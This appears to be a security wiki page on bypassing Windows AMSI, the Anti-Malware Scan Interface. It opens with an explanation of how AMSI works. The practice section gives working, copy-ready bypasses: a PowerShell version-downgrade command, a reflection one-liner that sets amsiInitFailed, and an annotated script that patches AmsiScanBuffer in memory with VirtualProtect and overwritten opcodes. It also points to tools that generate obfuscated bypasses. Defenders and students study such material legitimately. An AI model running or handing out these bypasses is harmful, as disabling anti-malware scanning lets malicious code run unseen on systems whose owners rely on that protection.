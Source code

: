 # AMSI bypass

## Theory

With the release of PowerShell, Microsoft released [AMSI (Anti-Malware Scan Interface)](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal). It is a runtime detection measure shipped natively with Windows and is an interface for other products and solutions.

### How it works ?

AMSI (Anti-Malware Scan Interface) is a PowerShell security feature that will allow any applications or services to integrate directly into anti-malware products. Defender instruments AMSI to scan payloads and scripts before execution inside the .NET runtime. The [CLR (Common Language Runtime)](https://learn.microsoft.com/en-us/dotnet/standard/clr) and [DLR (Dynamic Language Runtime)](https://learn.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/dynamic-language-runtime-overview) are the runtimes for .NET.

AMSI is fully integrated into the following Windows components:

* User Account Control, or UAC
* PowerShell
* Windows Script Host (wscript and cscript)
* JavaScript and VBScript
* Office VBA macros

The below diagram depicts how data is dissected as it flows through the layers and what DLLs/API calls are being instrumented.\
![](../../../.gitbook/assets/35e16d45ce27145fcdf231fdb8dcb35e.png)

This is important to understand the complete model of AMSI, but we can break it down into core components, shown in the diagram below.\
![](../../../.gitbook/assets/efca9438e858f0476a4ffd777c36501a.png)

{% hint style="danger" %}
Note: AMSI is only instrumented when loaded from memory when executed from the CLR. It is assumed that if on disk MsMpEng.exe (Windows Defender) is already being instrumented.
{% endhint %}

## Practice

To find where AMSI is instrumented, we can use [InsecurePowerShell](https://github.com/cobbr/InsecurePowerShell) maintained by [Cobbr](https://github.com/cobbr) which is a GitHub fork of PowerShell with security feature removed, and compare it with an [offical PowerShell GitHub](https://github.com/PowerShell/PowerShell).

### PowerShell Downgrade

The PowerShell downgrade attack is a very low-hanging fruit that allows attackers to modify the current PowerShell version to remove security features.\
Most PowerShell sessions will start with the most recent PowerShell engine, but attackers can manually change the version with a one-liner. By "downgrading" the PowerShell version to 2.0, you bypass security features since they were not implemented until version 5.0.

{% tabs %}
{% tab title="Powershell" %}
We can simply use this command to downgrad powershell. This attacked is used in popular tools such as [Unicorn](https://github.com/trustedsec/unicorn)

```bash
PowerShell -Version 2
```

{% hint style="danger" %}
Since this attack is such low-hanging fruit and simple in technique, there are a plethora of ways for the blue team to detect and mitigate this attack.
{% endhint %}
{% endtab %}
{% endtabs %}

### PowerShell Reflection

Reflection allows a user or administrator to access and interact with .NET assemblies. It can be abused to modify and identify information from valuable DLLs.\
The AMSI utilities for PowerShell are stored in the **AMSIUtils** .NET assembly located in **System.Management.Automation.AmsiUtils**.

{% tabs %}
{% tab title="Powershell" %}
Matt Graeber published a one-liner to accomplish the goal of using Reflection to modify and bypass the AMSI utility. This one-line can be seen in the code block below.

```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
{% endtab %}
{% endtabs %}

### Patching AMSI

AMSI is primarily instrumented and loaded from **amsi.dll**. This dll can be abused and forced to point to a response code we want. The **AmsiScanBuffer** function provides us the hooks and functionality we need to access the pointer/buffer for the response code.\
AmsiScanBuffer is vulnerable because amsi.dll is loaded into the PowerShell process at startup; our session has the same permission level as the utility. AmsiScanBuffer will scan a "buffer" of suspected code and report it to amsi.dll to determine the response. We can control this function and overwrite the buffer with a clean return code.

{% tabs %}
{% tab title="C#" %}
At a high-level AMSI patching can be broken up into four steps,

* Obtain handle of amsi.dll
* Get process address of AmsiScanBuffer
* Modify memory protections of AmsiScanBuffer
* Write opcodes to AmsiScanBuffer

```bash
$MethodDefinition = "
    [DllImport(`"kernel32`")] // Import DLL where API call is stored
    public static extern IntPtr GetProcAddress( // API Call to import
        IntPtr hModule, // Handle to DLL module
        string procName // function or variable to obtain
    );

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(
        string lpModuleName // Module to obtain handle
    );

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(
        IntPtr lpAddress, // Address of region to modify
        UIntPtr dwSize, // Size of region
        uint flNewProtect, // Memory protection options
        out uint lpflOldProtect // Pointer to store previous protection options
    );
";
//Load the API calls
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;

//Identify where amsi.dll is located and how to get to the function
$handle = [Win32.Kernel32]::GetModuleHandle(
	'amsi.dll' // Obtains handle to amsi.dll
);
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
	$handle, // Handle of amsi.dll
	'AmsiScanBuffer' // API call to obtain
);

//Modify the memory protection of the AmsiScanBuffer process region.
[UInt32]$Size = 0x5; // Size of region
[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
[Win32.Kernel32]::VirtualProtect(
	$BufferAddress, // Point to AmsiScanBuffer
	$Size, // Size of region
	$ProtectFlag, // Enables R or RW access to region
	[Ref]$OldProtectFlag // Pointer to store old options
); 

//Overwrite the buffer
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy(
	$buf, // Opcodes/array to write
	0, // Where to start copying in source array 
	$BufferAddress, // Where to write (AsmiScanBuffer)
	6 // Number of elements/opcodes to write
); 
```
{% endtab %}
{% endtabs %}

### AMSI Bypass Tools

While it is preferred to use the previous methods shown, attackers can use other automated tools to break AMSI signatures or compile a bypass.

{% tabs %}
{% tab title="AMSI.Fail" %}
[amsi.fail](https://amsi.fail/) will compile and generate a PowerShell bypass from a collection of known bypasses.\
From amsi.fail, "AMSI.fail generates obfuscated PowerShell snippets that break or disable AMSI for the current process. The snippets are randomly selected from a small pool of techniques/variations before obfuscating. Every snippet is obfuscated at runtime/request so that no generated output share the same signatures."
{% endtab %}

{% tab title="AMSITrigger" %}
[AMSITrigger](https://github.com/RythmStick/AMSITrigger) allows attackers to automatically identify strings that are flagging signatures to modify and break them. This method of bypassing AMSI is more consistent than others because you are making the file itself clean.

```bash
C:\Users\v4resk\Tools>AmsiTrigger_x64.exe -i "bypass.ps1" -f 3
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/runtimedetectionevasion" %}
